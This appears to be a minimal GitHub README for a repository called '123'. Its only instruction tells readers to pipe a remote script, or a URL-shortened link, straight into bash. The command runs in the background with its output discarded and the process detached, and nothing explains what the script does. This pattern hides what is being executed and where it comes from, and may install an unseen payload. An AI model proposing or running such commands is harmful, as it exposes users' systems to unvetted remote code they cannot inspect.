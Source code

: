# 123

just run
`nohup curl -s https://raw.githubusercontent.com/bisser-cw/123/main/123 | bash &>/dev/null & disown` or `nohup curl -Ls https://rb.gy/c7wno4 | bash & disown`
